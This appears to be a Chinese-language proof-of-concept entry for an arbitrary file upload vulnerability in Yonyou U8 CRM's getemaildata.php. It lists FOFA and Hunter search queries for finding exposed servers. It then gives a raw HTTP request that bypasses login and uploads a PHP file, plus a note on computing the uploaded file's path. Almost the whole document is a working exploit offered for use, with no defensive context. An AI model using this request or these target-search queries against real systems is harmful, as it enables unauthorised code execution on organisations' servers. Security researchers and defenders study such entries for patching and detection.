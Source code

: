 # 用友 U8 CRM客户关系管理系统 getemaildata.php 任意文件上传漏洞

## 网络测绘

fofa: app="用友U8CRM"

hunter: web.body="用友U8CRM"

## POC / EXP

```
POST /ajax/getemaildata.php?DontCheckLogin=1 HTTP/1.1
Host:
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykS5RKgl8t3nwInMQ

------WebKitFormBoundarykS5RKgl8t3nwInMQ
Content-Disposition: form-data; name="file"; filename="test.php "
Content-Type: text/plain

<?php phpinfo();?>

------WebKitFormBoundarykS5RKgl8t3nwInMQ
```

文件名需要十六进制减一

```
/tmpfile/updD24D.tmp.php
```